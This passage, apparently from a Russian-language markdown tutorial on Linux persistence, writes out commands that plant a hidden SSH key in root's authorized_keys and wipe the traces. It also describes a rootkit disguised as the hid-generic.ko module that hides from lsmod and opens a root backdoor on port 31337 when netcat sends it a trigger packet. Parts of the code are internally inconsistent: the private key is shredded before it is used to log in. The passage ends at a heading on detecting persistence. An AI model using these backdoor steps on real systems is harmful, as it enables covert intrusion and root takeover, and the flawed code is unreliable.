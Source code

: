 #### Шаг 3: Создание скрытого SSH-доступа
```bash
# Генерация специального SSH-ключа
ssh-keygen -t ed25519 -f /tmp/attacker_key -N ""

# Добавление ключа с ограничениями
echo 'command="sleep 10" '$(cat /tmp/attacker_key.pub) >> /root/.ssh/authorized_keys

# Очистка следов
shred -zu /tmp/attacker_key
```
**Механизм работы:**
- При подключении по SSH выполняется `sleep 10` вместо шелла
- На атакующей машине:
  ```bash
  while true; do
    ssh -i attacker_key root@target sleep 1
    # После подключения перехватываем управление
    break
  done
  ```

---

---

### Как работает персистентность на практике?
**Сценарий после перезагрузки системы:**
1. Система загружается
2. Автоматически загружается модуль ядра `hid-generic.ko` (на самом деле руткит)
3. Руткит:
   - Скрывает себя в списке модулей (`lsmod` не покажет его)
   - Начинает прослушивать "триггеры" (специальные сетевые пакеты или файлы)
4. При появлении злоумышленника:
   - Руткит дает ему root-доступ
   - Скрывает его активность

**Пример восстановления доступа:**
```bash
# На машине злоумышленника
nc -u target_ip 5353  # Отправка UDP-пакета как триггера

# На целевой машине (скрыто):
# 1. Руткит получает пакет
# 2. Открывает backdoor-порт
# 3. Злоумышленник подключается:
nc -v target_ip 31337
whoami  # root
```

---

### Методы обнаружения Persistence

